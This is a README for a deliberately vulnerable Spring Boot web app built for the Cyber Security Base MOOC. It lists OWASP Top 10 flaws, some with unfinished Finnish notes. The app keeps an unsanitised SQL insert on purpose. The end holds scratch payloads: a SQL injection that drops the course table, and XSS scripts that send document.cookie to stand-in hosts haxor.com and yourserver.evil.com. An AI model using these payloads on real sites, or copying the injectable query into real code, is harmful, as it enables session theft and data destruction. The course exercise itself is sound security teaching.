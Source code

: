 # Cyber Security Base 2019 -project

This app is a project created for MOOC course Cyber Security Base 2019-2020.

## Project description
In the first course project, your task is to create a web application that has at least five different flaws from the OWASP top ten list (https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf).


## Project essay
LINK: https://github.com/nurvel/spring-owasp-vulnerable-app

The app is created with Spring Boot. You can start up the app in IDE or on command line with '''mvn spring-boot:run'''
Server will start to port 8080, navigate to localhost:8080.
The database is H2 and will be initialized with necessary data on every startup. If you want to reset, just restart the app.

Log in as student:
Username: student
Password: password

Log in as teacher:
Username: teacher
Password: password


### FLAW 1: A1:2017-Injection
#### OWASP description of the security flaw:
> Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent
to an interpreter as part of a command or query. The attacker’s hostile data can trick the
interpreter into executing unintended commands or accessing data without proper authorization.

#### How the security flaw behaves in the app
In the URL '''http://localhost:8080/course''' it is possible to give feedback and have a discussion about the courses. This comment field enables user to inject SQL statements to the database. This is due that the implementation of the database query is done without sanitizing the input from the user.

#### How to fix the security flaw in the app
In the CourseController in method courseFeedback the INSERT statement is created with plain SQL-statement that does not sanitize the input. To fix this issue the input should be done using methods that the CourseRepository object provides or sanitizing the input using PreparedStatement.



#### How the security flaw behaves in the app
H2 data base URL not secured and using default password

#### How to fix the security flaw in the app
Change default password to H2


### FLAW 1: A6:2017-Security Misconfiguration
#### OWASP description of the security flaw:
Security misconfiguration is the most commonly seen issue. This is commonly a result of insecure
default configurations, incomplete or ad hoc configurations, open cloud storage, misconfigured
HTTP headers, and verbose error messages containing sensitive information. Not only must all
operating systems, frameworks, libraries, and applications be securely configured, but they must
be patched and upgraded in a timely fashion.
#### How the security flaw behaves in the app
H2 data base URL not secured and using default password
#### How to fix the security flaw in the app
Change default password to H2

### FLAW 2: A7:2017-Cross-Site Scripting (XSS)
#### OWASP description of the security flaw:
XSS flaws occur whenever an application includes untrusted data in a new web page without
proper validation or escaping, or updates an existing web page with user-supplied data using a
browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the
victim’s browser which can hijack user sessions, deface web sites, or redirect the user to
malicious sites.
#### How the security flaw behaves in the app
IDEA: thymeleaf salli XSS inserttaus HOX: mikä hyöty.. Ihan vaan kiusanteko tms?
#### How to fix the security flaw in the app

### FLAW 3: A3:2017-Sensitive Data Exposure
#### OWASP description of the security flaw:
Many web applications and APIs do not properly protect sensitive data, such as financial,
healthcare, and PII. Attackers may steal or modify such weakly protected data to conduct credit
card fraud, identity theft, or other crimes. Sensitive data may be compromised without extra
protection, such as encryption at rest or in transit, and requires special precautions when
exchanged with the browser.
#### How the security flaw behaves in the app
idea: näkee tietoja URL arvailulla jota ei pitäisi? --> kaikki en oppilaiden tiedot
#### How to fix the security flaw in the app
autorisointi urliin /

### FLAW 4: A10:2017-Insufficient Logging & Monitoring
#### OWASP description of the security flaw:
Insufficient logging and monitoring, coupled with missing or ineffective integration with incident
response, allows attackers to further attack systems, maintain persistence, pivot to more systems,
and tamper, extract, or destroy data. Most breach studies show time to detect a breach is over
200 days, typically detected by external parties rather than internal processes or monitoring.
#### How the security flaw behaves in the app
#### How to fix the security flaw in the app

### FLAW 5: A9:2017-Using Components with Known Vulnerabilities
#### OWASP description of the security flaw:
Components, such as libraries, frameworks, and other software modules, run with the same
privileges as the application. If a vulnerable component is exploited, such an attack can facilitate
serious data loss or server takeover. Applications and APIs using components with known
vulnerabilities may undermine application defenses and enable various attacks and impacts.
#### How the security flaw behaves in the app
harjoituksesta joku missä oli tää?
#### How to fix the security flaw in the app



-- SQL injection =>  Hello insert
=> drop table?

INSERT INTO signup (address, name) VALUES ('testijuttu', 'moikka')

INSERT INTO signup (address, name) VALUES ('testijuttu', '
Bye bye courses!') ; DROP TABLE course; --
')

style=\"display: none;\"

<script>document.write("<img src=\"http://www.haxor.com/cookiesteal/" + document.cookie +"\" style=\"display: none;\" />")  </script>

# ALLA OLEVA TOIMII
<script>document.write("<img src=\"http://www.haxor.com/cookisteal/" + document.cookie +"\"/>")  </script>

<script>fetch("http://www.haxor.com/cookisteal/" + document.cookie) </script>
document.cookie="JSESSIONID=12EE43AF515F83867B20D94907108063"
<img src='https://yourserver.evil.com/collect.gif?cookie=' + document.cookie/>
